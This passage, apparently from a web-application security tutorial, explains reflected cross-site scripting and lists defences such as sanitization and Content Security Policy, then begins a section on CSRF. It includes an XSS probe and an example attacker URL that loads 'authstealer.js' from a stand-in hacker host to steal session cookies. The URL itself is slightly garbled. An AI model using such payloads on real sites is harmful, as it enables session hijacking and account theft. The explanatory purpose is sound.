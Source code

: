 + The query produces an alert box saying: "XSS".
+ The page displays: "<script type='text/javascript'>alert('XSS');</script > not found."
+ The page's URL reads http://ecommerce.com?q=<script type="text/javascript">alert('XSS'); </script>.

This tells the perpetrator that the website is vulnerable. Next, he creates his own URL, which reads:

```git
http://forum.com?q=news<\script%20src="http://hackersite.com/authstealer.js"
```
and embeds it as a link into a seemingly harmless email, which he sends to a group of forum users.


While the sending address and subject line may appear suspect to some, it does not mean that it won't be clicked on.

In fact, even if only one in every 1,000 recipients of the email click on the link, that still amounts to several dozen infected forum users. They will be taken to the forum's website, where the malicious script will be reflected back to their browser, enabling the perpetrator to steal their session cookies and hijack their forum accounts.



## Solutions

+ First and foremost, from the user's point-of-view, vigilance is the best way to avoid XSS scripting.

+ Untrusted HTML input must be run through an HTML sanitization engine to ensure that it does not contain XSS code.

+ It is ultimately up to a website operator to prevent potential abuse to their users. This is done by blocking the user's requests. This is done to protect the user, as well as to prevent collateral damage to all other website visitors.

+ Stealing cookies can be mitigated by tying session cookies to the IP address of the user who originally logged in, then only permit that IP to use that cookie.

+ There are three classes of XSS defense that are emerging. These include Content Security Policy,[38] Javascript sandbox tools, and auto-escaping templates. These mechanisms are still evolving but promise a future of heavily reduced XSS attack occurrence.



# Cross Site Request Forgery (CSRF)


Cross site request forgery (CSRF), also known as XSRF, Sea Surf or Session Riding, is an attack vector that tricks a web browser into executing an unwanted action in an application to which a user is logged in.
![Image](https://www.incapsula.com/images/illustrations/web-app-security-mini-site/csrf-cross-site-request-forgery.png)
CSRFs are typically conducted using malicious social engineering, such as an email or link that tricks the victim into sending a forged request to a server. As the unsuspecting user is authenticated by their application at the time of the attack, it’s impossible to distinguish a legitimate request from a forged one.
